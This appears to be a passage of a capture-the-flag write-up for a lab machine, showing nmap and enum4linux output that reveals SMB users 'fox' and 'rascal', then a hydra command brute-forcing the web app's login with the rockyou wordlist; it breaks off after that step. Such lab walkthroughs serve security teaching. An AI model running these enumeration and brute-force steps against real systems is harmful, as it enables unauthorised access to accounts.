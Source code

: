 ``` {.python .numberLines}
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-29T14:24:57
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 29 19:55:04 2020 -- 1 IP address (1 host up) scanned in 56.96 seconds

```

2\. We find `80/tcp` to be open and enumerate it further. The webapp enforces authentication due to which we are not allowed to view any pages. We will need to find the credentials for the web app to proceed with this further:  

3\. From the scan results SMB for ports, we find that there are two active users on this machine: `fox` and `rascal`  
``` {.python .numberLines}
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\fox (Local User)
  User Name   : fox
  Full Name   : fox
  Home Drive  : \\year-of-the-fox\fox
  Dir Drive   : 
  Profile Path: \\year-of-the-fox\fox\profile
  Logon Script: 

S-1-22-1-1001 Unix User\rascal (Local User)
Use of uninitialized value $user_info in pattern match (m//) at ./enum4linux.pl line 932.

 ============================================= 
|    Getting printer info for 10.10.41.240    |
 ============================================= 
No printers returned.

enum4linux complete on Wed Jul 29 20:18:34 2020

```

4\. We run a password bruteforce scan against the webapp for both usernames and find a hit:  
``` {.python .numberLines}
hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.41.240 http-head /

```

![writeup.enumeration.steps.4.1](./screenshot01.png)  
